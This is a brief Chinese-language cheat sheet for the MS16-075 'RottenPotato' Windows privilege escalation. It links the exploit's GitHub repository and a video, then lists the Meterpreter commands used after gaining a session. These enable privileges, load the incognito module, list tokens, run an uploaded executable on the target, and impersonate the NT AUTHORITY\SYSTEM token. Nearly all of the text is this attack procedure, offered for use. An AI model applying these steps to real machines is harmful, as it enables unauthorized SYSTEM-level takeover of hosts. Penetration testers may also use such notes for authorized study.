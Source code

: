 MS16-075

https://github.com/foxglovesec/RottenPotato
youtube视频

获取meterpreter之后:
getprivs

使用这个模块:
use incognito 

查看已有的token:
list_tokens -u 

上传到目标主机之后执行:
execute -Hc -f [exe]

再查看已有token
list_tokens -u 

如果有system:
impersonate_token "NT AUTHORITY\\SYSTEM"
